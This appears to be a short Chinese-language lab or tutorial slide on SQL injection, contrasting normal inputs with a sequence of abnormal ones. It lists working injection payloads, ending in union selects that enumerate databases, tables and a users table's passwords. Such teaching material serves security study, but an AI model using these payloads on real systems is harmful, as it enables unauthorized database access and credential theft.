

# 嘗試輸入各種不正常的input
正常輸入:1，2

不正常輸入:1’，1’ and 1=1#，1‘ and 1=1 union select database()#，
1‘ and 1=1 union select database(), user()#，1’ and 1=1 union select table_name from information_schema.tables#，1‘ and 1=1 union select null, table_name from information_schema.tables#，1' and 1=1 union select user, password from users#